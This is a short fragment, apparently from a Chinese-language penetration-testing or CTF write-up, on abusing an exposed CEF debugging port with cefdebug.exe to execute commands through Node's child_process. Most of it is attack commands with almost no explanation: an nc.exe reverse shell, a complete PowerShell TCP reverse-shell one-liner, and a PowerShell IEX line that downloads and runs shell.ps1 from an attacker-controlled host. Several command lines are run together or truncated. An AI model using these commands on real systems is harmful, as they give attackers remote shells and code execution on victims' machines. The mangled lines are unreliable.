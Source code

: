 [![](assets/1705974590-cb4340077363d0e8b6041620b648f023.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223440-36141d26-b86a-1.png)

## CEF 调试

```plain
\cefdebug.exe--code"process.version"--url ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052
.\cefdebug --code"process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\x')"  ws://127.0.0.1:63254/3788348a-7950-47f9-a91d-14ee16ffc052a-b0
1a-629102094b
```

使用 cefdebug.exe 来进行调试。

[![](assets/1705974590-852a25d9f121487deeb8196341010c56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223530-53de15d2-b86a-1.png)

```plain
.\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.16.10 443 -e cmd')"--urlws://127.0.0.1:60404/830$client = New-Object 
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.10',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();

.\cefdebug.exe --url ws://127.0.0.1:38802/8dcd4ac7-49f5-4652-9c95-3f0d7766ffc7 --code "process.mainModule.require('child_process').exec('powershell IEX(New-Object Net.WebClient).DownloadString(\'http://10.10.16.10/shell.ps1\')')"
```
